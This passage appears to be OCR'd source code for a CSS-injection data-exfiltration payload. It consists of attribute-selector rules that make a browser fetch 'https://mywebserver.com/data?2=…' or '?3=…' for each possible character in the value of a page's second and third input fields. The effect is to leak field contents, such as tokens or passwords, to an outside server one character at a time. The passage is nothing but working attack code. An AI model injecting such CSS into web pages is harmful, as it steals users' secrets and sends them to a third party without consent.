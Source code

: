 ```
input[value=W]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=W"); }
input[value=X]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=X"); }
input[value=Y]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=Y"); }
input[value=Z]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=Z"); }
input[value=a]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=a"); }
input[value=b]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=b"); }
input[value=c]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=c"); }
input[value=d]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=d"); }
input[value=e]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=e"); }
input[value=f]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=f"); }
input[value=g]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=g"); }
input[value=h]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=h"); }
input[value=i]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=i"); }
input[value=j]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=j"); }
input[value=k]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=k"); }
input[value=l]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=l"); }
input[value=m]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=m"); }
input[value=n]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=n"); }
input[value=o]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=o"); }
input[value=p]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=p"); }
input[value=q]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=q"); }
input[value=r]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=r"); }
input[value=s]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=s"); }
input[value=t]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=t"); }
input[value=u]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=u"); }
input[value=v]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=v"); }
input[value=w]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=w"); }
input[value=x]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=x"); }
input[value=y]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=y"); }
input[value=z]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=z"); }
input[value=0]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=0"); }
input[value=1]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=1"); }
input[value=2]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=2"); }
input[value=3]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=3"); }
input[value=4]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=4"); }
input[value=5]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=5"); }
input[value=6]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=6"); }
input[value=7]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=7"); }
input[value=8]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=8"); }
input[value=9]:nth-of-type(2) { background-image: url("https://mywebserver.com/data?2=9"); }

input[value=A]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=A"); }
input[value=B]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=B"); }
input[value=C]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=C"); }
input[value=D]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=D"); }
input[value=E]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=E"); }
input[value=F]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=F"); }
input[value=G]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=G"); }
input[value=H]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=H"); }
input[value=I]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=I"); }
input[value=J]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=J"); }
input[value=K]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=K"); }
input[value=L]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=L"); }
input[value=M]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=M"); }
input[value=N]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=N"); }
input[value=O]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=O"); }
input[value=P]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=P"); }
input[value=Q]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=Q"); }
input[value=R]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=R"); }
input[value=S]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=S"); }
input[value=T]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=T"); }
input[value=U]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=U"); }
input[value=V]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=V"); }
```